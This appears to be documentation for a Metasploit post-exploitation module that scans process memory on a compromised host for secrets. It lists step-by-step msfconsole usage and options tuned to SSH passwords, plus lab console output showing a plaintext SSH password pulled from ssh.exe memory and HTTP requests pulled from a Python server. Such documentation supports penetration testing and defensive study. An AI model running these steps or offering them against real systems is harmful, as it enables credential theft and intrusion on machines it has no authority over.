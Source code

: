 ## Vulnerable Application

This module allows for searching the memory space of running processes using Meterpreter's
`stdapi_sys_process_memory_search` command for potentially sensitive data such as passwords.

## Verification Steps

1. Start `msfconsole`
1. Get a Meterpreter session
1. Do: `use post/multi/gather/memory_search`
1. Do: `set SESSION <Session ID>`
1. Do: `set PROCESS_NAMES_GLOB <process_names_regex>`
1. Do: `set PROCESS_IDS <Process ID>`
1. Do: `set REGEX <regex>`
1. Do: `run`

## Options

### PROCESS_NAMES_GLOB

Regular expression used to target processes. (default: `ssh.*`)

### PROCESS_IDS

Comma delimited process ID/IDs to search through. (default: `nil`)

### REGEX

Regular expression to search for within memory. (default: `publickey,password.*`)

### MIN_MATCH_LEN

The minimum number of bytes to match. (default: `5`)

### MAX_MATCH_LEN

The maximum number of bytes to match. (default: `127`)

### REPLACE_NON_PRINTABLE_BYTES

Replace non-printable bytes with ".". (default: `true`)

### SAVE_LOOT

Save the memory matches to loot. (default: `true`)


## Scenarios

### Windows 10 - OpenSSH_9.4p1, OpenSSL 3.1.2 1 Aug 2023

In this scenario, the Windows target is connected to a different host using `ssh.exe` using the password `myverysecretpassword`:
```
msf6 post(multi/gather/memory_search) > sessions

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  3         meterpreter x64/windows  DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB  192.168.112.1:4444 -> 192.168.112.129:55513 (192.168.112.129)

msf6 post(multi/gather/memory_search) > run session=-1 regex="publickey,password.*" process_ids='' process_names_glob="ssh.*"

[*] Running module against - DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB (192.168.112.129). This might take a few seconds...
[*] Getting target processes...
[*] Running against the following processes:
        ssh.exe (pid: 4292)

[*] Memory Matches for ssh.exe (pid: 4292)
======================================

 Match Address       Match Length  Match Buffer                                                                                    Memory Region Start  Memory Region Size
 -------------       ------------  ------------                                                                                    -------------------  ------------------
 0x0000000A00060DF0  127           "publickey,password......3.......myverysecretpassword....................#.........#..........  0x0000000A00000000   0x0000000000090000
                                   ...........S......................"

[*] Post module execution completed
```

### Windows 10 - Python3 HTTP Server

In this scenario, the Windows target is running the `http.server` module in Python:
```
msf6 post(multi/gather/memory_search) > sessions

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  3         meterpreter x64/windows  DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB  192.168.112.1:4444 -> 192.168.112.129:55513 (192.168.112.129)
  
msf6 post(multi/gather/memory_search) > run session=-1 regex="GET /.*" process_ids='' process_names_glob="python.*|[Ww]indows[Tt]erminal.*"

[*] Running module against - DESKTOP-NO8VQQB\win10 @ DESKTOP-NO8VQQB (192.168.112.129). This might take a few seconds...
[*] Getting target processes...
[*] Running against the following processes:
        WindowsTerminal.exe (pid: 9168)
        python.exe (pid: 2816)

[*] Memory Matches for WindowsTerminal.exe (pid: 9168)
==================================================

 Match Address       Match Length  Match Buffer                                                                                    Memory Region Start  Memory Region Size
 -------------       ------------  ------------                                                                                    -------------------  ------------------
 0x00000121C3458649  127           "GET /.portable HTTP/1.1\" 200 -...::ffff:192.168.112.1 - - [17/Jan/2024 14:36:38] \"GET /favi  0x00000121C3449000   0x000000000001B000
                                   con.ico HTTP/1.1\" 404 -..windows-ter"

[*] Memory Matches for python.exe (pid: 2816)
=========================================

 Match Address       Match Length  Match Buffer                                                                                    Memory Region Start  Memory Region Size
 -------------       ------------  ------------                                                                                    -------------------  ------------------
 0x0000013A0E3017D1  127           "GET /.portable HTTP/1.1\" 200 -.....:.....Q.:...................0.Q.:...0.Q.:.....Q.:.....Q.:  0x0000013A0E270000   0x00000000000FF000
                                   ...pAR.:...pAR.:...0.Q.:...0.Q.:..."
 0x0000013A1063DC21  127           "GET /.portable HTTP/1.1\" 200 -...t-black.ico...`@l.:.....h.:..............&.............l.&.  0x0000013A105E0000   0x0000000000100000
                                   ....l.&.....l.&.....l.&......k.:..."
 0x0000013A1063E5B1  127           "GET /.portable HTTP/1.1\" 200 -...b.l.e...o.....P.c.:...s.e.r.s.\\.w.i.n.1.0.\\.s.c.o.o.p.\\.  0x0000013A105E0000   0x0000000000100000
                                   a.p.p.s.\\.w.i.n.d.o.w.s.-.t.e.r.m.i.n."
 0x0000013A1067EC41  127           "GET /Images/ HTTP/1.1\" 200 -...@.g.:...p..&....2.................012345........<li><a href=\  0x0000013A105E0000   0x0000000000100000
                                   "defaults.json\">defaults.json</a></l"
 0x0000013A106CADD0  127           "GET /.portable HTTP/1.1...p&.............x..:...P...:...0.l.:....ta$.e$j..k.:... lk.:........  0x0000013A105E0000   0x0000000000100000
                                   ...0.l.:......................&..."
 0x0000013A106CF940  127           "GET /.portable HTTP/1.1...........l.:...................Pf.&.....^.&......e.:................  0x0000013A105E0000   0x0000000000100000
                                   ....Sn&....s.......P.l.:...p..&..."

[*] Post module execution completed
```
